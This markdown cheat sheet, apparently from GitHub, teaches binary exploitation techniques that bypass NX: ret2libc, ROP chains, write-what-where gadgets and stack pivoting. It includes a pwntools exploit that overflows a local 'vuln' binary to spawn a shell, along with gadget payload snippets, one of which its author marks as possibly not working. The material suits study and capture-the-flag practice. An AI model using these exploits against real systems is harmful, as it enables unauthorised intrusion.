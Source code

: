 # No eXecute

## ret2libc

Check if the target binary is using `libc` with the following commands:  
`ldd <binary>`  
or  
`vmmap` - when inside gdb  

List functions provided by your systems libc:  
`nm -D /lib/$(uname -m)-linux-gnu/libc-*.so | grep -vw U | grep -v "_" | cut -d " " -f 3`  

libc, or any other library, is a list of functions that reside at a known offset from the library base.  
If you know the library base and the library version, you will also know the target function's address.  

*NX prevents execution from the stack but having arguments there is fine*  

Steps to exec a function in libc:  
1. find interesting function to spawn a shell (System, Exec* (execl, execle, execlp, execve, execve, etc...))
2. Set up the stack
3. Overwrite EIP/RIP with the functions address

Stack setup:  
1. Offset to EIP
2. Address of the target function
3. Return address to be restored after executing the function, i.e. exit() (or anything if we don't care about a graceful exit)
4. Arguments for the target function

---

Find the offest to `system()` in libc, from the base of libc (the path can be found after using `ldd` on the target binary with:  

`readelf -s <libc_path>`  

Additionally find the offset to a function that is present in the binary, e.g. `puts()`.  
You can leak the address of `puts`, subtract the offset of `puts` from the `puts` address to get the libc base address,  
the add the offset of `system()` to the base address and call that.  
Search for "/bin/sh" in libc and follow the above steps - alternatively, use a write-what-where gadget to store "/bin/sh" in memory.  

Can also import libc into pwntools to automate searching for functions, just need to set the libc base address (run `ldd` on the target binary):  

```python3
from pwn import *

libc = ELF("</path/to/libc.so>")
libc.address = 0x<ldd_output>
system_function = libc.symbols.system
bin_sh = next(libc.search(b'/bin/sh\x00'))
```

### System() Example
No ASLR  
---

From the man pages:  
`int system(const char *cmd);`  

Find system()'s offset from the libc base  
`readelf -s /lib/i386-linux-gnu/libc.so.6 | grep "system"`  
The address provided in the second column is the offset  
Open gdb while debugging the target binary and run: `vmmap libc`. Choose one which has "x" permissions  
Add the system() offset and the executable libc base to find system()'s address.  

If the above does not work, an alternative is `p system` in gdb.  
*repeat for exit() if looking to exit gracefully*  

System() requires a pointer to the string as an argument, not the string itself. Need to find "/bin/bash" or similar in the binary.  
In gdb: `search /bin` to find instances of shells  
Try to use addresses from libc  

**Example exploit:**  

```python3
#!/usr/bin/env python3
from pwn import *
io = process("./vuln")
offset = b"A" * 520
target_func = p64(0x7ffff7e17330)   # system @ 0x7ffff7e17330
ret_addr = p64(0x7ffff7e09590)    # exit @ 0x7ffff7e09590
sys_arg = p64(0x7ffff7f61031)   # Argument to system() "/bin/bash" @ 0x7ffff7f61031

payload = offset + target_func + ret_addr + sys_arg
print(payload)

io.sendline(payload)
io.interactive()
```

If you need to pass as a command line arg you can use `(cat payload.txt; cat) | ./vuln`  

## ROP Chains

Pwntools ROP documentation: <https://docs.pwntools.com/en/latest/rop/rop.html>  
<https://github.com/Gallopsled/pwntools-tutorial/blob/master/rop.md>  
Stephen Sims - Return Oriented Shellcode (SANS SEC760 Content)  
<https://www.youtube.com/watch?v=7BMyVvYv5d0>  
Automate finding gadgets <https://github.com/packz/ropeme>  

Overflow a buffer to control the EIP/RIP.  
From the EIP/RIP onwards, place the address of the instructions you are using and any values that need to be popped into registers, followed by an `int 0x80` to switch to kernel mode and execute the system call.  

You can view the available gadgets in a program with `ropper`  
E.g. `ropper -f vuln` to view all of the gadgets in a binary.  


**Calling execve():**  
- AL register needs to hold 0x0b
- BX register needs to hold a pointer to your arg for the system call
- CX register points to the arg vector ARGV pointer array
- DX register points to the ENVP array (Environment Variable Pointer)

If the program has an mmap() function, you need to find rop gadgets **after** the mmap() has occurred to ensure the gadgets do exist in memory.  
- You can then use `ltrace` to view the address where mmap is mapped and add instuction offsets
- Validate by hitting a breakpoint in gdb and addid the 2 values, then `x/i $addr`

## Write What Where

Gadgets that allow you to store data in memory, i.e. create a pointer to an argument.  
 
E.g.  

```asm
# Basic and best example
mov [rdi], rsi; ret;

# Alternative:
xchg byte ptr [rdi], bl; ret;
```

## Writeable Locations

Find writable sections with `readelf -S -W ./vuln`  
Use pwntools to reference section addresses:  
```python
from pwn import *
context.binary = elf = ELF("./vuln")
print(elf.symbols)
```

**.data** stores initialised variables.  
The address of .data can be found with:  
```python
from pwn import *
context.binary = elf = ELF("./vuln")
data_section = elf.symbols.data_start
```

**.bss** stores uninitialised variables.  
The address of .bss can be found with:  
```python
from pwn import *
context.binary = elf = ELF("./vuln")
bss_section = elf.symbols.__bss_start
```

## Stack Pivoting

Gadgets to control ESP/RSP:  

```asm
pop rsp; ret;               # Unlikely, but great

xchg <reg>, rsp; ret;       # Just need to control the register in question:
# eg.
pop <reg>; ret;
<reg value>
xchg <reg>, rsp; ret

leave; ret;                 # These are everywhere
```

leave; ret; explanation:  
`leave` is equivalent to `mov rsp, rbp; pop rbp;`  
So a `leave; ret;` looks like `mov rsp, rbp; pop rbp; pop rip;`  
That means that when we overwrite RIP, the 8 bytes before it overwrite RBP (4 bytes for ESP)  
If we then call `leave; ret;` again, RBP is moved into RSP, thus giving us control over the stack location.  

### Example "leave; ret;" Payload

*Note: Not sure if this works.*  

```python3
from pwn import *
rop.raw([
    b"A" * rbp_offset, # rip control - 8 (4 for 32bit)
    new_stack_addr,
    leave_ret,
])
```

### Example "xchg rax, rsp; ret;" Payload

Using a simple `xchg` instruction where we control the register that is exchanged with esp.  
*This doesn't cover finding a new stack location*  

```python
from pwn import *

xchg = p32(0x0804882e) # 0x0804882e: xchg eax, esp; ret;
pop = p32(0x0804882c) # 0x0804882c: pop eax; ret;

payload = flat([
  pop,
  leaked_addr,
  xchg
])
```

### Example "sub esp, 0x20"

If you don't have much space for a rop chain, eg. only 4 or 8 bytes are overflowed out of the buffer,  
you can utilise a `sub esp, 0x20`, or similar to move the stack pointer lower in memory,  
where you have additional ROP gadgets.  
Use ROP gadgets in your offset data rather than just junk alone.  
